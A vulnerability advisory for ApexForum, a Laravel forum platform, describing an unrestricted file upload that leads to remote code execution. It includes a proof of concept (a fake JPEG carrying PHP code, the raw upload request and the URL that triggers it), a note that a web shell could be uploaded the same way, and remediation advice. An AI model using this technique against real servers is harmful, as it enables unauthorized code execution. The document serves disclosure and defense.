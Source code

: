 # 📤 ApexForum - Arbitrary File Upload to Remote Code Execution (RCE)

📌 **Product Information**  
**Platform**: Laravel  
**Affected Feature**: File Upload Endpoint  
**Tested Vulnerability**: Unrestricted File Upload (PHP Code Execution)  
**CVE**: Not Assigned  
**Severity**: Critical (Authenticated File Upload to RCE)  
**CWE ID**: CWE-434  
**CWE Name**: Unrestricted Upload of File with Dangerous Type  
**Patched**: ❌ Not Applicable  
**Patch Priority**: 🔴 High  
**Date Published**: August 10, 2025  
**Researcher**: Yucaerin  
**Vendor**: [ApexForum](https://www.codester.com/items/46152/apexforum-the-ultimate-forum-platform)

---

⚠️ **Summary of the Vulnerability**  
The `upload` endpoint in ApexForum's Laravel application fails to properly validate uploaded files. Attackers can upload arbitrary files with embedded PHP code by disguising them as images, which the server stores in a publicly accessible directory.  
When accessed, the uploaded PHP file executes on the server, resulting in **Remote Code Execution (RCE)**.

---

## 🧪 Proof of Concept (PoC)  

### ➤ Step 1 - Craft Malicious Image with Embedded PHP
Example payload (`bq.jpg`):
```php
ÿØÿà<?php echo 'hello world'; ?>
```

### ➤ Step 2 - Upload via Vulnerable Endpoint
```http

Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="image"; filename="bq.jpg"
Content-Type: image/jpeg

ÿØÿà<?php echo 'hello world'; ?>
------WebKitFormBoundary--
```

**Response:**
```json
{
  "status":200,
  "url":"https:\/\/localhost\/public\/uploads\/trumbowyg\/20fd17f01763a1130306e93ee0015250.php"
}
```

---

### ➤ Step 3 - Trigger the Payload
Access:
```
https://localhost/public/uploads/trumbowyg/20fd17f01763a1130306e93ee0015250.php
```
**Output:**
```
hello world
```

✅ **Indicators of Success**:
- Server accepts `.php` files.
- Payload is executed upon visiting the file URL.
- Full RCE is possible.

---

## 🔍 Where’s the Flaw?
- No server-side MIME type or extension validation.
- No file content scanning to detect embedded PHP.
- Upload directory is publicly accessible and executes `.php` files.

---

## 🔐 Recommendation
- Restrict allowed file types/extensions server-side (e.g., `.jpg`, `.png`, `.gif` only).
- Validate MIME type and file signature (magic bytes).
- Store uploads outside the web root or serve them via a non-executable handler.
- Configure web server to prevent execution of scripts in the upload directory.
- Sanitize file names and paths.

---

## ⚙️ Optional Automation Features
An automated exploit could:
- Craft a PHP web shell disguised as an image.
- Access the uploaded file to execute commands remotely.

---

## ⚠️ Disclaimer  
This PoC is for **educational and authorized security testing** only.  
Do **not** target systems without explicit permission. Unauthorized exploitation is illegal.
